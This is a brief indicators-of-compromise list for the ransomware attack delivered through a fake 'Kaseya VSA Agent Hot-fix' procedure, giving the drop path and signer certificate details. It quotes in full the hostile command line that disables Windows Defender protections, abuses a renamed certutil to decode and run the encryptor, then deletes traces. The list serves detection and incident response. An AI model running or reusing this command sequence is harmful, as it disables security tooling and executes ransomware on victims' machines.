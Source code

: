 Here's validated indicators of compromise:

- Ransomware Encryptor is dropped to c:\kworking\agent.exe

- The VSA procedure is named "Kaseya VSA Agent Hot-fix”

- At least two tasks run the following: "C:\WINDOWS\system32\cmd.exe" /c ping 127.0.0.1 -n 4979 > nul & C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend & copy /Y C:\Windows\System32\certutil.exe C:\Windows\cert.exe & echo %RANDOM% >> C:\Windows\cert.exe & C:\Windows\cert.exe -decode c:\kworking\agent.crt c:\kworking\agent.exe & del /q /f c:\kworking\agent.crt C:\Windows\cert.exe & c:\kworking\agent.exe

- Signer Information 
- Name: PB03 TRANSPORT LTD.
- Email: Brouillettebusiness@outlook.com
- CN = Sectigo RSA Code Signing, CAO = Sectigo Limited, L = Salford, S = Greater Manchester, C = GB
- Serial #: 119acead668bad57a48b4f42f294f8f0
- Issuer: https://sectigo.com/